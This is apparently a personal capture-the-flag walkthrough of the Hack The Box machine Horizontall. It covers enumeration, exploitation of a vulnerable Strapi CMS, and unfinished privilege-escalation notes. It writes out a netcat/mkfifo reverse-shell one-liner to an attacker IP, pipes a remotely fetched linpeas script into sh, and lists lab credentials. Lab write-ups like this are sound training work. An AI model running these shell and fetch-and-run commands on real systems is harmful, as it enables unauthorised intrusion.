 Box Info Horizontall.htb
OS: Linux \
IP: 10.10.11.105 \

Part I Skills learned::  
SSH, nginx, reverse shells \
CVE-2019-18818, CVE-2019-19609, CVE-2021-3129 

---
**Enumeration::**

nmap -p- -A -oN Horizontall.txt ${IP} ::
```
22 SSH 
80 http nginx 1.14.0 (Ubuntu)

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt :: nothing
ffuf :: nothing
nikto -h http://horizontall.htb :: nothing
Very little enumeration... ***but***

##Because it's running Nginx, it's possible to have VHOSTs::##
gobuster vhost -u http://horizontall.htb -w /usr/share/wordlists/subdomains-top1million.txt(see url) -t 150 ::
 1) Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
 2) **Add new dir to /etc/hosts**
 3) gobuster u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150 ::
 4) Found: /admin, /users, /reviews, /Reviews, /Users, /Admin, /REVIEWS, 
```
 curl GET http://api-prod.horizontall.htb/<dir> show reviews w/ names. /Admin shows .js
 http://.../admin :: ***Strapi*** login page
    viewing .js scripts show verison of strapi. See ![strapi_version](Screenshots/strapi_verison_find.png)
        + "strapi-plugin-content-type-builder@3.0.0-beta.17.4"
 http://.../reviews :: .json review info
 http://.../Users :: 403
 http://.../%C0 :: 400
```
---
**OSINT::**
[CVE's](https://www.cvedetails.com/vulnerability-list/vendor_id-22287/product_id-75293/Strapi-Strapi.html)
[exploit.py](https://www.exploit-db.com/exploits/50239)

After running exploit.py, shell becomes broken. see ![broken shell](Screenshots/strapi_exploit_broken_shell.png)
 + "Remember this is a blind RCE dont expect to see output"
 + Now login with credentials:: admin:SuperStrongPassword1 see ![creds](Screenshots/strapi_exploit_broken_shell.png)
 + File upload present in admin portal.
   + try to upload reverse shell::
   1)`$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 1337 >/tmp/f` see ![Shell](Screenshots/strapi_shell.png)
   2) `nc -lnvp <lister port> :: $whoami strapi` 
   3) /home/developer/user.txt

---
Root::
+ netstat shows ports && ips
+ sudo -l nothing, very low permissions.
+ find / -perm /6000
  + GTFO's: 

+ python -m http.server 8081
+ curl <attack tun ip>:8081/linpeas.sh | sh
    + see ![horizontal_ports](Screenshots/linpeas_ports_horizontall.png)
```
UN:PW for mysql (from linpeas.sh): developer:#J!:F9Zt2u
SSH keys avaliable : /opt/strapi/myapi/node_modules/..etc.etc
sudo verison 1.8.21p2
curl 127.0.0.1:8000 ::
    + https://vapor.laravel.com
    + see link laravel_exploit
    exploit: CVE-2021-3129_exploit
```

TODO::
import requests:
no module requests available 

```
```

---
**References::
[Discovery_DNS_subdomains_etc](https://github.com/danielmiessler/SecLists)
[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/refs/pull/252/merge)
[Lavarel_exploit](https://github.com/nth347/CVE-2021-3129_exploit)
[walkthrough](https://burakozlu.medium.com/horizontall-walkthrough-htb-250182ab0721)